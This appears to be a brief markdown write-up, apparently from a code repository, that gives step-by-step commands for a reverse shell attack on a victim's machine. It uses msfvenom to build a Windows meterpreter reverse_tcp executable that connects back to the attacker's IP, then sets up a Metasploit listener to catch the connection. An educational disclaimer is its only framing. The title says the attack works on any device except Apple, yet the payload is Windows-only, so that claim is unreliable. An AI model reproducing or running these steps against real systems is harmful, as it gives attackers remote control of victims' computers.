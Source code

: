 Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	`ping [IP]`
2. **Create a folder with a basic name and get into that folder.**
	`mkdir [folder-name] && cd [folder-name]`
3. **On the folder created previously execute the command below:**
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe`
4. **Open metasploit and execute this command:** 
	`use exploit/multi/handler`
5. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	`set payload windows/meterpreter/reverse_tcp`
6. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	`set LHOST (YOUR IP)`
	`set LPORT 5555`
7. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	`exploit`